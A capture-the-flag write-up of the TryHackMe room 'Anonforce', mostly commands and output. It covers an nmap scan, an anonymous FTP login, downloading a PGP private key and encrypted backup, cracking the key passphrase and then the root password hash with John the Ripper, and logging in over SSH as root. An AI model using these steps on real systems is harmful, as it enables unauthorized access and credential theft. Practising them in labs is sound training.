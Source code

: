 #Title: Anonforce
#Difficulty: Easy

```shell
THM="10.10.156.118"
```

```bash
nmap -sC -sV $THM
```

```shell
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 bin
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 boot
| drwxr-xr-x   17 0        0            3700 Nov 13 15:02 dev
| drwxr-xr-x   85 0        0            4096 Aug 13  2019 etc
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 home
| lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img -> boot/initrd.img-4.4.0-157-generic
| lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img.old -> boot/initrd.img-4.4.0-142-generic
| drwxr-xr-x   19 0        0            4096 Aug 11  2019 lib
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 lib64
| drwx------    2 0        0           16384 Aug 11  2019 lost+found
| drwxr-xr-x    4 0        0            4096 Aug 11  2019 media
| drwxr-xr-x    2 0        0            4096 Feb 26  2019 mnt
| drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 notread [NSE: writeable]
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 opt
| dr-xr-xr-x  101 0        0               0 Nov 13 15:02 proc
| drwx------    3 0        0            4096 Aug 11  2019 root
| drwxr-xr-x   18 0        0             540 Nov 13 15:02 run
| drwxr-xr-x    2 0        0           12288 Aug 11  2019 sbin
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 srv
| dr-xr-xr-x   13 0        0               0 Nov 13 15:02 sys
|_Only 20 shown. Use --script-args ftp-anon.maxlist=-1 to see all.
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.87.204
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:f9:48:3e:11:a1:aa:fc:b7:86:71:d0:2a:f6:24:e7 (RSA)
|   256 73:5d:de:9a:88:6e:64:7a:e1:87:ec:65:ae:11:93:e3 (ECDSA)
|_  256 56:f9:9f:24:f1:52:fc:16:b7:7b:a3:e2:4f:17:b4:ea (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

There are 2 ports open running ssh and ftp. Lets start with ftp. Nmap shows that there is a anonymous user open. For logging in as anonymous write this. Leave the password empty and press enter.

```bash
ftp anonymous@$THM 

220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

Lets check the directories a bit. We change directory to home and then get the user.txt to our own machine. We can then cat and get the flag.

```bash
ftp> cd home
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||5913|)
150 Here comes the directory listing.
drwxr-xr-x    4 1000     1000         4096 Aug 11  2019 melodias
226 Directory send OK.
ftp> cd melodias
250 Directory successfully changed.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||34121|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |************************************************************************|    33      266.33 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.31 KiB/s)
ftp> 
```

In the nmap when we look at directories there is a notread folder. Lets see whats in the directory. There are 2 files. A backup and a private key. We can not just use that to see the backup but we can decrypt it.

```bash
ftp> cd notread
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||45168|)
150 Here comes the directory listing.
-rwxrwxrwx    1 1000     1000          524 Aug 11  2019 backup.pgp
-rwxrwxrwx    1 1000     1000         3762 Aug 11  2019 private.asc
226 Directory send OK.
ftp> get *
local: 37292 remote: *
229 Entering Extended Passive Mode (|||43015|)
550 Failed to open file.
ftp> get backup.pgp
local: backup.pgp remote: backup.pgp
229 Entering Extended Passive Mode (|||6406|)
150 Opening BINARY mode data connection for backup.pgp (524 bytes).
100% |************************************************************************|   524        3.70 MiB/s    00:00 ETA
226 Transfer complete.
524 bytes received in 00:00 (5.05 KiB/s)
ftp> get private.asc
local: private.asc remote: private.asc
229 Entering Extended Passive Mode (|||53204|)
150 Opening BINARY mode data connection for private.asc (3762 bytes).
100% |************************************************************************|  3762       28.47 MiB/s    00:00 ETA
226 Transfer complete.
3762 bytes received in 00:00 (34.81 KiB/s)
ftp> 
```

Next part lets decrypt it.

```bash
gpg2john private.asc > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

```shell
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<Redacted>          (anonforce) 
```

```bash
gpg -d backup.pgp
```

And write the password you got. Then we can see all /etc/passwd as plain text. `root:<Redacted>:18120:0:99999:7:::`. Take the part that is Redacted right now and add to a file with nano. Then use john to decrypt it.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash

Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX512BW 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<Redacted>           (?)     
1g 0:00:00:00 DONE (2023-11-13 18:25) 3.225g/s 29729p/s 29729c/s 29729C/s horoscope..sassy123
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

We get the password for the root and we can now login with ssh as root.

```bash
ssh root@$THM
```

BOOOOOOMM!!! We are root.

```bash
root@ubuntu:~# ls
root.txt
root@ubuntu:~# cat root.txt
<Redacted>
```

That is it. See you on another room.

